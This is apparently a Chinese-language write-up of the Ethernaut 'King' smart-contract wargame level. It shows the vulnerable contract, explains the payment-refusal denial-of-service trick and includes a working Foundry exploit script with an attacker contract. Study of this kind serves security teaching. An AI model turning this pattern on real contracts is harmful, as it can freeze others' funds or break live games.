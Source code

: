 # Level 9 - King
## 題目
[King](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
### 通關條件
下面的合約是一個很簡單的遊戲：任何發送了高於目前獎品 ether 數量的人將成為新的國王。在這個遊戲中，新的獎拼會支付給被推翻的國王，在這過程中就可以賺到一點 ether。看起來是不是有點像龐氏騙局 (*´∀`)~♥ 這麽好玩的遊戲，你的目標就是攻破它。 當你提交實例給關卡時，關卡會重新申明他的王位所有權。如果要通過這一關，你必須要阻止它重獲王位才行 (ﾒﾟДﾟ)ﾒ
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
## 解題
先搞懂題目合約的功能：A 轉進去 100 成為國王，B 必須要轉進去大於 100 的金額才可以成為新的國王，當 B 變成國王時，A 可以拿到 B 轉進去的錢。

另外每次提交時，關卡都會重新搶一次國王，所以重點是如何讓關卡搶王位失敗；也就是讓它轉帳失敗就可以讓他無法搶到王位了，關於轉帳失敗在 [Level 7 - Force](https://hackmd.io/@D13/ethernaut7) 有提到只要合約沒有 `receice()` 和 `fallback() payable` 時，是無法收款的。

總結我們的攻擊流程：
1. 寫一個合約，轉帳給關卡合約成為國王
2. 合約內不要用任何收款函數，這樣關卡重新奪位時會因為交易失敗導致無法成為國王

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/09_King.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        KingAttacker kingAttacker = new KingAttacker{value:0.001 ether}(your_challenge_address);
        kingAttacker.attack();

        vm.stopBroadcast();
    }
}

contract KingAttacker {
    address public challengeInstance;

    constructor(address _challengeInstance) payable {
        challengeInstance = _challengeInstance;
    }

    function attack() external {
        (bool success, ) = payable(challengeInstance).call{value: 0.001 ether}("");
    }
}
```